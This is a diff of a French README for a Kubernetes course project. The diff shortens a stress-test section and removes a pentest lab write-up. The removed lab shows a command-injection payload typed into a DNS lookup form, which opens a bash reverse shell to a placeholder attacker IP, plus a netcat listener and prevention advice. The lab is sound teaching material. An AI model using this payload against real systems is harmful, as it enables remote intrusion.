

Before and after one commit to LaChevrenen/MicroService2, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -178,71 +165,11 @@ kubectl apply -f k8s/flightbook-hpa.yaml
 kubectl get hpa -w
 ```
 
-Stress test pour valider le scaling :
+Stress test :
 ```bash
-# Terminal 1 — watch
-kubectl get hpa -w
-
-# Terminal 2 — charge CPU sur tous les pods
 for pod in $(kubectl get pod -l app=flightbook -o name); do
   kubectl exec $pod -- /bin/sh -c "while true; do cat /dev/urandom | md5sum; done" &
 done
 wait
 ```
 
-Résultat observé : CPU 2% → 501% → scale up **2 → 4 replicas** en ~30s. Ctrl+C pour arrêter.
-
----
-
-## TP Kubernetes Security — Pentest
-
-Objectif : accéder au nœud k3s en root en enchaînant 3 vulnérabilités.
-
-### 1. Installation du workload vulnérable
-
-```bash
-git clone git@github.com:acombe/kubernetes-security-course.git
-cd kubernetes-security-course
-
-# Build + push (WSL sans accès internet depuis le container : utiliser docker-compose-host-network.yml)
-docker compose build
-docker compose push
-# Sur Windows : même contournement crane que pour flightbook
-
-kubectl create namespace infres
-kubectl apply -f k8s/Vulnnode.yaml
-
-sudo sh -c 'echo "$(hostname -I | awk '"'"'{print $1}'"'"') vulnnode.infres.fr" >> /etc/hosts'
-```
-
-Test : `http://vulnnode.infres.fr/lookup.html` → entrer `google.com` → résolution DNS affichée.
-
-![Formulaire vulnnode](docs/screens/vulnnode-01-form.png)
-![Résultat DNS google.com](docs/screens/vulnnode-02-dns-result.png)
-
----
-
-### Vulnérabilité 1 — Command injection (étape 2)
-
-**Problème** : le formulaire passe l'input directement à `nslookup` via un `exec()` shell sans aucune sanitization.
-
-**Exploit** :
-```
-google.com ; bash -c 'exec bash -i &>/dev/tcp/TON_IP/4444 <&1'
-```
-
-![Injection dans le formulaire](docs/screens/vulnnode-04-injection.png)
-
-Écoute côté attaquant :
-```bash
-nc -lvnp 4444
-```
-Une fois le reverse shell obtenu, se connecter plus proprement :
-```bash
-kubectl exec -it vulnnode-<pod-id> -n infres -- /bin/bash
-```
-
-**Prévention** : ne jamais passer l'input utilisateur à un shell système. Utiliser une lib DNS haut niveau (`dns.lookup()` en Node, `dnspython` en Python) qui n'invoque pas de sous-processus.
-
----
-
````
Also changed, not shown: other parts of README.md (+25 -114 lines), docs/pentest.md (added, +123 -0 lines).
